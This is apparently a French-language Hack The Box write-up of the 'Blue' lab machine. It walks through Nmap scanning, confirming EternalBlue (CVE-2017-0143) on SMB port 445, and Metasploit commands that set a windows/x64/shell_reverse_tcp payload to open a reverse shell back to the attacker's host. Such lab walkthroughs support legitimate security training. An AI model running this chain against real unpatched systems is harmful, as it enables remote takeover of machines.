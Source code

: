 ```yaml
---
Title: blue
layout : default
---
```


![Blue](https://labs.hackthebox.com/storage/avatars/52e077ae40899ab8b024afd51cb29b1c.png)

# Synopsis

Selon Hack The Box (HTB), Blue est l'une des machines les plus simples à résoudre sur leur plateforme. Cependant, elle démontre à quel point l'exploit EternalBlue, utilisée dans plusieurs ransomware, peut être critique.

# Enumération

## Recherche des ports disponibles
On commence par rechercher les ports disponibles avec l'outil Nmap :

```shell
sudo nmap -Pn -T4 -sV 10.10.10.40 -o/-oX/-oG <nomfichier>.format
```
Il est recommandé d'utiliser un format de sortie facilement exploitable pour le scripting, bien que cela ne soit pas nécessaire ici, car nous utiliserons **Metasploit** pour l'exploitation.

![Premier_commande_nmap](../images/nmap_blue_command.png)

Le résultat de cette commande est le suivant :

![Premier_resultat_nmap](../images/resultat_commande_nmap.png)

Dans notre recherche, nous trouvons que le port 445 pourrait être vulnérable à EternalBlue, une vulnérabilité exploitant le protocole NTtrans2 utilisé par SMBv1 en cas d'un message trop longue dans le BufferOverflow.

Cette vulnérabilité permet à un attaquant d'exécuter du code malveillant à distance, et a été utilisée dans des attaques comme celle du ransomware WannaCry.

Pour confirmer cette vulnérabilité, on peut utiliser la commande suivante :

```shell
sudo nmap -T4 -sV --script vuln 10.10.10.40
```
Et on confirme le resultat : 

![vulnerabilité](../images/recherche_de_la_vulnerabilité.png)

# Exploitation

Pour exploiter cette vulnérabilité, on aura besoin de **Metasploit**, un outil conçu pour fournir des informations sur diverses vulnérabilités et exécuter des exploits de manière automatisée.

## Recherche de la vulnérabilité avec Metasploit

On lance Metasploit et faisons la recherche de la vulnérabilité identifiée par Nmap :

```shell
sudo msfconsole
search CVE-2017-0143
```
![search_vuln](../images/msfconsole_seach_vuln.png)

Nous choisissons l'option 0 et affichons les payloads disponibles pour EternalBlue :

```shell
use 0
show payloads
```
On sélection le payload **windows/x64/shell_reverse_tcp** :

```shell
set payload windows/x64/shell_reverse_tcp
```
## Configuration du payload

Nous devons configurer l'IP de la victime (RHOST) et notre propre IP (LHOST) :

![config_payload](../images/configuration_payload.png)

```shell
set RHOST 10.10.10.40  # IP de la machine victime
set LHOST <Votre IP>   # Remplacez <Votre IP> par votre adresse IP
run
```
![penetration_machine](../images/penetration_machine.png)
# Elévation de « privilèges »

Pour l'élévation de privilèges, il suffit de naviguer dans le bureau de chaque utilisateur et de trouver leur flag avec la commande **type**, similaire à **cat** sur Linux.

![admin_flag](../images/flag_admin.png)
